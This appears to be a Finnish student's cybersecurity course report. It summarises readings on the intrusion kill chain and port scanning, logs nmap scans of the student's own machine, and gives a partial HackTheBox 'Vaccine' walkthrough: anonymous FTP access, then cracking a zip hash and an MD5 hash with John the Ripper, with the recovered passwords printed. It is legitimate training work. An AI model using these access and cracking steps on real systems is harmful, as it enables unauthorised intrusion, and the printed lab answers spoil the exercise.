


# h1 Kybertappoketju

>x) Lue/katso/kuuntele ja tiivistä. (Tässä x-alakohdassa ei tarvitse tehdä testejä tietokoneella, vain lukeminen tai kuunteleminen ja tiivistelmä riittää. Tiivistämiseen riittää muutama ranskalainen viiva. Kannataa lisätä kustakin oma huomio, idea tai kysymys.)
>- Herrasmieshakkerit (RSS) tai Darknet Diaries (RSS) , yksi vapaavalintainen jakso jommasta kummasta. Voi kuunnella myös lenkillä, pyykiä viikatessa tms. Siisti koti / hyvä kunto kaupan päälle.

### Herrasmieshakkerit:
kuuntelin jakson:
Kybertuhon katkaisija, vieraana Viivi Lehtinen | 0x40 51:31

- Kotien elektroniset lukot (2:45)
Elektronisissa lukoissa on tapahtumaloki, koska ovi on esim. avattu ja tulee myös hälytyksiä jos ovi on jäänyt auki. Mekaanisissa lukoissa ei ole tälläinen mahdollista. Avaimen voi myös disabloida, jos se häviää. Mekaanisissa lukoissa pitää sarjoittaa kaikki lukot uudelleen, jos avain häviää.
- shyhunt npm saastuttaja (8:00)
Shyhunt on npm verkkomato, npm on node package manager jota käytetään esim. koodauksessa. Shyhunt laitettiin alunperin liikkeelle niin, että suosituimmista npm paketeista (esim. postman, asyncapi) tehtiin uusi versio, koska shyhuntin koodarit saivat julkaisuoikeudet suosituimpiin npm paketteihin ja sitä kautta mato levisi ja saaastutti satoja tietokoneita. Shyhunt varasti salaisuuksia (github avaimet tms.)saastuneista tietokoneista. Xz virus myös mainittiin podcastissa.

Podcastissa Viivi Lehtinen oli vieraana ja kertoi lasten ja nuorten tukemista oikealle polulle kyberturvallisuuteeen. Jotta nuoret ymmärtäisivät että kyberrikokset ovat rikoksia ja yritetään saada nuoret laillisiin kyberturvallisuuden töihin.

>- Hutchins et al 2011: Intelligence-Driven Computer Network Defense Informed by Analysis of Adversary Campaigns and Intrusion Kill Chains, chapters Abstract, 3.2 Intrusion Kill Chain.

Teksti kertoi kybertappoketjusta.

Kybertappoketjun vaiheet:
- Tiedustelu esim. porttiscannaus tai yrityksen henkilöiden sähköpostien etsiminen
- hyökkäys esim. remote access trojan:in pakkaaminen pdf tiedostoon
- Lähetys eli lähetetään haitallinen tiedosto esim. sähköpostilla tai usb tikun avulla tietokoneeseen
- haavoittuvuuden hyödyntäminen
- Asentaminen
- etäohjausoikeudet
- Vaikuttaminen kohteeseen

>- € Santos et al: The Art of Hacking (Video Collection): 4.3 Surveying Essential Tools for Active Reconnaissance. Sisältää porttiskannauksen. 5 videota, yhteensä noin 20 min.

Video kertoi aktiivisesta tiedustelusta esim. :
- porttiskannauksesta esim. nmapin käyttäminen
- Eyewitness työkalusta, jolla siis voi ottaa screenshotteja eri nettisivuista automaattisesti. Nettisivujen osoitteet voi laittaa yhteen tekstitiedostoon

>- KKO 2003:36. (Vain silmäily, ei tarvitse lukea kokonaan eikä varsinkaan tehdä syvällistä analyysia).

Korkeimman oikeuden ratkaisu tietomurron yrityksestä yritykseen.

Henkilö oli siis porttiskannannut osuuspankin tietojärjestelmän ja sai tästä rangaistuksen.

> a) Asenna Kali virtuaalikoneeseen. (Jos asennuksessa ei ole mitään ongelmia tai olet asentanut jo aiemmin, tarkkaa raporttia tästä alakohdasta ei tarvita. Kerro silloin kuitenkin, mikä versio ja millä asennustavalla. Jos on ongelmia, niin tarkka ja toistettava raportti).

Olin asentanut kalin jo aiemmin. Asensin kalin käyttämällä prebuilt imagea, joten ei tarvinnut kun vain klikata tiedosto auki

Asensin myös virtualbox guest additionsin

virtualbox Version 7.1.2 r164945 (Qt6.5.3)

┌──(kali㉿kali)-[~]

└─$ uname -v

#1 SMP PREEMPT_DYNAMIC Kali 6.18.9-1kali1 (2026-02-10)

>b) Irrota Kali-virtuaalikone verkosta. Todista testein, että kone ei saa yhteyttä Internetiin (esim. 'ping 8.8.8.8')

Testaan että netti toimii:

`┌──(kali㉿kali)-[~]`

`└─$ ping 8.8.8.8`

`PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.`

`64 bytes from 8.8.8.8: icmp_seq=1 ttl=255 time=11.3 ms`

`64 bytes from 8.8.8.8: icmp_seq=2 ttl=255 time=4.57 ms`

`64 bytes from 8.8.8.8: icmp_seq=3 ttl=255 time=3.70 ms`

`^C`

`--- 8.8.8.8 ping statistics ---`

`3 packets transmitted, 3 received, 0% packet loss, time 2003ms`

`rtt min/avg/max/mdev = 3.700/6.512/11.266/3.380 ms`

Virtualboxista voi ottaa internetin pois klikkaamalla hiiren oikealla tietokoneen kuvasta ja ottaa pois "connect network adapter



testataan että netti ei toimi:

┌──(kali㉿kali)-[~]

└─$ ping 8.8.8.8

ping: connect: Network is unreachable'

Eli siis ei tule myöskään packet loss, sanoo suoraan ettei verkko ole käytössä.

>c) Porttiskannaa 1000 tavallisinta tcp-porttia omasta koneestasi (nmap -T4 -A localhost). Selitä komennon paramterit. Analysoi ja selitä tulokset.

```
15:12|elias@eliaskone:~$ nmap -T4 -A localhost
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-03-29 15:12 EEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000073s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
631/tcp  open  ipp     CUPS 2.4
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: CUPS/2.4 IPP/2.1
|_http-title: Home - CUPS 2.4.7
3306/tcp open  mysql   MySQL 5.5.5-10.11.14-MariaDB-0ubuntu0.24.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.11.14-MariaDB-0ubuntu0.24.04.1
|   Thread ID: 33
|   Capabilities flags: 63486
|   Some Capabilities: ODBCClient, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, Support41Auth, SupportsTransactions, Speaks41ProtocolOld, IgnoreSigpipes, FoundRows, InteractiveClient, LongColumnFlag, SupportsCompression, Speaks41ProtocolNew, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: [0y5:ceRJZemv(a0jIka
|_  Auth Plugin Name: mysql_native_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.60 seconds
```
`nmap -v` komennon mukaan: 
-T flag on että kuinka nopeasti skannataan

-A on että: `-A: Enable OS detection, version detection, script scanning, and traceroute`

Koneessa on auki portti 631 joka siis liittyy jotenkin tulostukseen.

3306 on koneeni mysql portti, mulla on siis mysql asennettuna mun koneeseen ja pystyn siis tämän avulla kommunikoimaan mysql kanssa.

Tuolla näkyy kanssa tietokoneeni mysql ja ipp versiot.

>d) Asenna kaksi vapaavalintaista demonia ja skannaa uudelleen. Analysoi ja selitä erot.

Mulla oli asennettuna aiemmassa tehtävässä demonit, niin ei tarvitse asentaa.

Tein saman testin nmap -T4 -A 127.0.0.2 ip osoitteeseen. 127. alkuiset ip:t on localhost ip osoitteita. Nyt otan siis yhteyden 127.0.0.1 ip:n sijasta 127.0.0.2
```
15:20|elias@eliaskone:~$ nmap -T4 -A 127.0.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-03-29 15:26 EEST
Nmap scan report for eliaskone (127.0.0.2)
Host is up (0.000074s latency).
All 1000 scanned ports on eliaskone (127.0.0.2) are in ignored states.
Not shown: 1000 closed tcp ports (conn-refused)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.24 seconds
```
Eli ei portteja avoinna, koska ohjelmat on konfiguroitu siten, että ne vastaavat vain 127.0.0.1 ip:stä.

>e) Ratkaise vapaavalintainen kone HackTheBoxista. Omalle tasolle sopiva, useimmille varmaan Starting Pointista. Valitse kone, jota et ole ratkaissut vielä. Ei tunnilla näytetty Meow. (Propellihatuille: jos teet vaikeampia ei-starting-point koneita, niin retired tai vastaava kone, josta saa julkaista writeupin).

Writeup Vaccine HTB koneesta https://app.hackthebox.com/machines/Vaccine :
Task 1: Besides SSH and HTTP, what other service is hosted on this box?

Tein siis nmap skannauksen ja ftp portti on auki:

```
┌──(kali㉿kali)-[~]
└─$ nmap -v 10.129.95.174    
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-29 09:18 -0400
Initiating Ping Scan at 09:18
Scanning 10.129.95.174 [4 ports]
Completed Ping Scan at 09:18, 0.12s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 09:18
Completed Parallel DNS resolution of 1 host. at 09:18, 0.50s elapsed
Initiating SYN Stealth Scan at 09:18
Scanning 10.129.95.174 [1000 ports]
Discovered open port 21/tcp on 10.129.95.174
Discovered open port 80/tcp on 10.129.95.174
Discovered open port 22/tcp on 10.129.95.174
Completed SYN Stealth Scan at 09:18, 2.04s elapsed (1000 total ports)
Nmap scan report for 10.129.95.174
Host is up (0.033s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

This service can be configured to allow login with any password for specific username. What is that username?
FTP:ssä voi käyttää "anonymous" nimeä niin ei tarvitse salasanaa.

What is the name of the file downloaded over this service?

```
┌──(kali㉿kali)-[~]
└─$ ftp 10.129.95.174      
Connected to 10.129.95.174.
220 (vsFTPd 3.0.3)
Name (10.129.95.174:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||10066|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
ftp>
```
Kirjauduin sisään ja backup.zip löytyi.

backup.zip on salattu tiedosto.

zip2john komennolla sain zip tiedoston hashin
```
┌──(kali㉿kali)-[~]
└─$ zip2john backup.zip > file_hash.txt
```
Tallensin tämän hashin tiedostoon file_hash.txt:
```
┌──(kali㉿kali)-[~]
└─$ cat file_hash.txt       
backup.zip:$pkzip$2*1*1*0*8*24*5722*543fb39ed1a919ce7b58641a238e00f4cb3a826cfb1b8f4b225aa15c4ffda8fe72f60a82*2*0*3da*cca*1b1ccd6a*504*43*8*3da*989a*22290dc3505e51d341f31925a7ffefc181ef9f66d8d25e53c82afc7c1598fbc3fff28a17ba9d8cec9a52d66a11ac103f257e14885793fe01e26238915796640e8936073177d3e6e28915f5abf20fb2fb2354cf3b7744be3e7a0a9a798bd40b63dc00c2ceaef81beb5d3c2b94e588c58725a07fe4ef86c990872b652b3dae89b2fff1f127142c95a5c3452b997e3312db40aee19b120b85b90f8a8828a13dd114f3401142d4bb6b4e369e308cc81c26912c3d673dc23a15920764f108ed151ebc3648932f1e8befd9554b9c904f6e6f19cbded8e1cac4e48a5be2b250ddfe42f7261444fbed8f86d207578c61c45fb2f48d7984ef7dcf88ed3885aaa12b943be3682b7df461842e3566700298efad66607052bd59c0e861a7672356729e81dc326ef431c4f3a3cdaf784c15fa7eea73adf02d9272e5c35a5d934b859133082a9f0e74d31243e81b72b45ef3074c0b2a676f409ad5aad7efb32971e68adbbb4d34ed681ad638947f35f43bb33217f71cbb0ec9f876ea75c299800bd36ec81017a4938c86fc7dbe2d412ccf032a3dc98f53e22e066defeb32f00a6f91ce9119da438a327d0e6b990eec23ea820fa24d3ed2dc2a7a56e4b21f8599cc75d00a42f02c653f9168249747832500bfd5828eae19a68b84da170d2a55abeb8430d0d77e6469b89da8e0d49bb24dbfc88f27258be9cf0f7fd531a0e980b6defe1f725e55538128fe52d296b3119b7e4149da3716abac1acd841afcbf79474911196d8596f79862dea26f555c772bbd1d0601814cb0e5939ce6e4452182d23167a287c5a18464581baab1d5f7d5d58d8087b7d0ca8647481e2d4cb6bc2e63aa9bc8c5d4dfc51f9cd2a1ee12a6a44a6e64ac208365180c1fa02bf4f627d5ca5c817cc101ce689afe130e1e6682123635a6e524e2833335f3a44704de5300b8d196df50660bb4dbb7b5cb082ce78d79b4b38e8e738e26798d10502281bfed1a9bb6426bfc47ef62841079d41dbe4fd356f53afc211b04af58fe3978f0cf4b96a7a6fc7ded6e2fba800227b186ee598dbf0c14cbfa557056ca836d69e28262a060a201d005b3f2ce736caed814591e4ccde4e2ab6bdbd647b08e543b4b2a5b23bc17488464b2d0359602a45cc26e30cf166720c43d6b5a1fddcfd380a9c7240ea888638e12a4533cfee2c7040a2f293a888d6dcc0d77bf0a2270f765e5ad8bfcbb7e68762359e335dfd2a9563f1d1d9327eb39e68690a8740fc9748483ba64f1d923edfc2754fc020bbfae77d06e8c94fba2a02612c0787b60f0ee78d21a6305fb97ad04bb562db282c223667af8ad907466b88e7052072d6968acb7258fb8846da057b1448a2a9699ac0e5592e369fd6e87d677a1fe91c0d0155fd237bfd2dc49*$/pkzip$::backup.zip:style.css, index.php:backup.zip
```

ja sitten john the ripperillä vaan bruteforcetetaann zip tiedoston salasana:

```
┌──(kali㉿kali)-[~]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt file_hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
No password hashes left to crack (see FAQ)
```

Olin jo aiemmin crackannyt tiedoston hashin, joten katsoin eri komennolla mikä salasana olikaan:

┌──(kali㉿kali)-[~]
└─$ john --show file_hash.txt                                     
backup.zip:741852963::backup.zip:style.css, index.php:backup.zip

1 password hash cracked, 0 left

Ja sitten vaan unzip backup.zip ja salasanaksi tämä: 741852963

index.php tiedostosta löytyy password hash
```
┌──(kali㉿kali)-[~/backup]
└─$ ls               
backup.zip  index.php  pass_hash.txt  style.css  zipfile_password.txt
```
Tallensin hashin tiedostoon pass_hash.txt
```         
┌──(kali㉿kali)-[~/backup]
└─$ cat pass_hash.txt 
2cb42f8734ea607eefed3b70af13bbd3
```

Ja sieltä löytyi salasana:


!!1QWER..*7¡VA

Tämä salasana oli kuitenkin nettisivun mukaan väärin. Kysyin tekoälyltä apua.
```
┌──(kali㉿kali)-[~/backup]
└─$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt pass_hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
qwerty789        (?)     
1g 0:00:00:00 DONE (2026-03-29 09:48) 50.00g/s 5011Kp/s 5011Kc/s 5011KC/s shunda..pogimo
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```
Eli siis piti lisätä format md5 tohon

sitten oli vielä task6 ja 7 mutta jätän tämän nyt tähän, koska aika loppuu kesken.